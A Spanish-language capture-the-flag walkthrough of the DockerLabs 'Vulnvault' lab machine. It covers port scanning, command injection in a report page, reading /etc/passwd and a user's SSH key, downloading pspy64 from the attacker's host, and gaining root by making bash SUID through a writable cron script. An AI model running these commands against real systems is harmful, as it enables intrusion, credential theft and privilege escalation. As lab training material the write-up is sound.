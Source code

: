 # Maquina vulnvault

![](https://darkened-raisin-b9c.notion.site/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F89ee8e04-ef1a-4e1f-bd35-dd38f517fa16%2Fc4957249-01b5-4771-b9fd-39af9f612f5f%2Fimage.png?table=block\&id=1045f89f-9238-8098-b0d9-fcf67ccf3aba\&spaceId=89ee8e04-ef1a-4e1f-bd35-dd38f517fa16\&width=2000\&userId=\&cache=v2)

* **Nombre de la Máquina:** Vulnvault
* **Sistema Operativo:** Linux
* **Dificultad:** Fácil
* **Plataforma:** [DockerLabs](https://dockerlabs.es/)
* **Dirección IP:** 172.17.0.2

### Escaneo de puertos <a href="#heading-escaneo-de-puertos" id="heading-escaneo-de-puertos"></a>

Empezamos escaneando los puertos disponibles en la maquina:

```
sudo nmap -sS -p- --open -T5 -n -Pn -v 172.17.0.2 -oG allports
```

Obtenemos los siguientes puertos abiertos :

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 14:43 -05
Initiating ARP Ping Scan at 14:43
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 14:43, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:43
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 14:43, 0.52s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

En el resultado que nos arroja vemos que tenemos los puertos 22,80 por lo tanto realizamos un análisis mas detallado para ver que servicios están corriendo por estos:

```
> nmap -sCV -p22,80 172.17.0.2 -oG Puertos
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 14:47 -05
Nmap scan report for vulnvault.dl (172.17.0.2)
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Generador de Reportes - Centro de Operaciones
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.15 seconds
```

Ingresamos ala pagina web que tenemos corriendo por el puerto 80 para ver que tenemos:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727725843588/a83fab31-5f1f-4a4c-a45d-2b9b124b7a2d.png?auto=compress,format\&format=webp)

En la pagina vemos un enlace donde podemos subir archivos, aproveche para ejecutar una reverse Shell para saber si era posible un tipo de conexión pero no fue así.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727725974505/e4cd8ebb-0b19-4e24-976a-ca66d52b3bed.png?auto=compress,format\&format=webp)

Después de inspeccionar el código de fuente de la pagina revise la primer pagina “Generar Reportes” para ver si lograba alguna respuesta, ya que en la pantalla me imprimía cierta información.

### Intrusión <a href="#heading-intrusion" id="heading-intrusion"></a>

Nos dimos de cuenta que nos corre comandos anteponiendo ;

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726532948/cd3e2a8d-fd03-467f-986d-4e934c545ee6.png?auto=compress,format\&format=webp)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726511534/134f957f-cd97-43ad-bc34-091490dfd31d.png?auto=compress,format\&format=webp)

Por lo tanto procedo a leer el archivo `/etc/passwd` para ver que usuarios encontramos.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726709728/478cad3e-d49d-4396-a0f8-e5e43e9bd841.png?auto=compress,format\&format=webp)

Encontramos una usuaria `samara`, trate por medio de Hydra lograr descifrar alguna contraseña pero no fue posible, por eso intente buscar la cave privada del ssh del usuario samara, y efectivamente la encontramos..

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726878350/408f3d88-239a-4ff5-9e34-55e73cd70ef5.png?auto=compress,format\&format=webp)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726907483/25693de4-a16b-41bc-9ca2-c4798b9b9877.png?auto=compress,format\&format=webp)

Procedemos a copiarla y crear un archivo en nuestro directorio para asi darle permisos y poder loguearnos por ssh

```
nano id_rsa
chmod 600 id_rsa
ssh samara@172.17.0.2 -i id_rsa
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727727121235/33a5bbf0-615d-4d1c-9247-f2b56a3da2cb.png?auto=compress,format\&format=webp)

### Escalada de Privilegios <a href="#heading-escalada-de-privilegios" id="heading-escalada-de-privilegios"></a>

Empezamos por revisar los archivos del escritorio pero no hay nada relevante.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727727536190/a8dc7d7a-3c71-4324-a79c-d637615c277d.png?auto=compress,format\&format=webp)

Vamos a continuar revisando como escalar privilegios:

* Permisos SUID
* Privilegios Sudoers
* Tareas Cron

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727727789720/dadb41aa-2cde-4b03-93fa-877cc8a96896.png?auto=compress,format\&format=webp)

Al ver que no hay nada relevante procedo a descargar pspy64 y transferirlo la maquina con esto ver que podemos encontrar.

Desde mi maquina.

```
> python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

Maquina Victima, una vez recibimos el script le damos privilegios y ejecutamos.

```
wget http://194.168.145.145:443/pspy64
--2024-09-30 22:29:31--  http://192.168.153.145:443/pspy64
Connecting to 192.168.153.145:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64        100%   2.96M  17.4MB/s    in 0.2s     

2024-09-30 22:29:31 (17.4 MB/s) - ‘pspy64’ saved [3104768/3104768]

chmod 600 pspy64
./pspy64
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727728528391/69087613-ae3d-43ff-ac2d-4cf0eab94fe9.png?auto=compress,format\&format=webp)

Encontramos que se esta ejecutando constantemente el archivo `/usr/local/bin/echo.sh.`

Ingresamos al directorio y vemos que tiene permisos de escritura por lo que lo editamos para poder escalar privilegios

```
nano /usr/local/bin/echo.sh
#!/bin/bash
chmod u+s /usr/bin/bash
```

Una vez modificamos y guardamos ejecutamos el comando `bash -p` obtendremos una bash privilegiada con permisos root.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727728859372/0539b8cf-d840-4275-a9eb-d8fc03c450c2.png?auto=compress,format\&format=webp)

